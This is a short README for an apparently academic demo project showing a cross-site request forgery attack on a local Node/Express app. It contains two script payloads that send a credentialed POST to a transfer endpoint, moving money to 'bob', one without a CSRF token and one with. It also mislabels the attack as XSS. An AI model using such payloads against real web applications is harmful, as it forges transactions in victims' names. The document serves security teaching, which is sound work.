 # CSRF-attack

CSRF is a type of malicious exploit of a website where unauthorized commands are transmitted 
from a user that the web application trusts.

## Getting Started

Clone the project to your computer.

### Prerequisites

install webstorm .

### Installing

Install nodejs and express .

## Running 

Run the project . 
Run XSS attack with the following scripts:

### without token:
```
<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.2.1/jquery.min.js">
</script><script>$.ajax({type: 'POST',url: 'http://localhost:3000/transfer',data:
{'dest':'bob','amount':'600'},xhrFields:{ withCredentials: true},success:function(msg){}});</script>
```
### with token:
```
<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>
<script>$.ajax({type: 'POST',url: 'http://localhost:3000/tokenTransfer',crossDomain: true,
data:{'dest':'bob','amount':'600'},xhrFields:{ withCredentials: true},success:function(msg){}});</script>

```
 
 ## Authors

* **Galit Vaknin** - [Galit1321](https://github.com/Galit1321)

* **Ifat Neumann** - [neumani1](https://github.com/neumani1)

* **Michal Shawat** - [michalShawat](https://github.com/michalShawat)

## Acknowledgments

* The BIU Center for Research in Applied Cryptography and Cyber Security in Bar-Ilan University
